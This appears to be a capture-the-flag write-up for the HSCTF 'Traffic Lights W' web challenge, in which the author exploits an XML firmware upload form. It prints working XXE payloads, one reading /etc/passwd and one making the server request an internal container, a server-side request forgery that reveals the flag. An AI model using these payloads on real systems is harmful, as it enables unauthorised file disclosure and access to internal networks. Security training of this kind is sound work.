



# Traffic Lights W

>Can you figure out what’s going on with this shady company? https://traffic-light-w.web.hsctf.com/

You are given a page where you can upload firmware to some docker containers.



When you clock on the "Upload Firmware" button, you are able to upload XML firmware to that container.



The example firmware is below.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

When you upload that, you are echoed back "Red".

I tried some xxe payloads I looked up online, and one of them worked! Payload is below:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <content>&xxe;</content>
</root>
```



The challenge was to figure out what suspicious thing the company was doing, so I wondered what would happen if I connected to one of the docker containers, so I did just that, and that gave us the flag!

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://traffic-light-1004/"> ]>
<root>
  <content>&xxe;</content>
</root>
```


Flag: `flag{shh_im_mining_bitcoin}`
